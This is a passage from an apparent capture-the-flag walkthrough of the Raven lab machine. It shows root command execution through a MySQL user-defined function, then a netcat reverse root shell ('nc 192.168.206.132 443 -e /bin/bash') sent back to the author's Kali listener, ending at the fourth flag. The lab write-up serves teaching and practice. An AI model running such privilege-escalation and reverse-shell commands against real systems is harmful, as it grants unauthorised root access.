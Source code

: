 By default the file will be readable only by root, so I chain the `chmod` command at the end of `id` to make the file world-readable. 

We can login to another SSH session as `michael` and read the contens of `/tmp/out`:

```
michael@Raven:~$ cat /tmp/out
uid=0(root) gid=0(root) groups=0(root)
```

Excellent, the `id` command reported that it's running as the root user. So what can we do? Pretty much anything at this point since we have root command execution. However let's complete the challenge by getting a shell. I'm going to obtain a reverse shell as the root user by using the `nc` command. `nc` or netcat is a sort of swiss army network tool. One feature that some versions of netcat have is to connect back to a server and shovel a shell to the listening server. In this case I'll use it to connect back to my machine with a root shell. 

First, I need to setup my machine to listen to a specific port for netcat to connect to. In this case, I'll use port 443. So on my Kali instance: 

```
root@kali:~# nc -lvp 443
listening on [any] 443 ...
```

Next, back on the target's MySQL instance, I use netcat and specify the IP address of my machine, the port to connect to, and the `-e` flag to specify what command to execute: 

```
mysql> select do_system('nc 192.168.206.132 443 -e /bin/bash');
```

Upon executing this MySQL should just "freeze". That's because it's now established a connection to my Kali instance and we can see that from our netcat listener: 

```
root@kali:~# nc -lvp 443
listening on [any] 443 ...
connect to [192.168.206.132] from raven.local [192.168.206.131] 46850
```

The netcat listener has reported that the target has connected to it. Although there is no shell prompt, we can actually start typing commands: 

```
root@kali:~# nc -lvp 443
listening on [any] 443 ...
connect to [192.168.206.132] from raven.local [192.168.206.131] 46850
id
uid=0(root) gid=0(root) groups=0(root)
```

We can see that we're now the root user. To verify we're actually root on the target, we can pull up it's IP address and the contents of the `/root` directory: 


```
ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:fe:2e:e8
          inet addr:192.168.206.131  Bcast:192.168.206.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fefe:2ee8/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:149756 errors:0 dropped:0 overruns:0 frame:0
          TX packets:153237 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:11526665 (10.9 MiB)  TX bytes:29539647 (28.1 MiB)

ls -l /root/
total 4
-rw-r--r-- 1 root root 442 Aug 13 12:22 flag4.txt
```
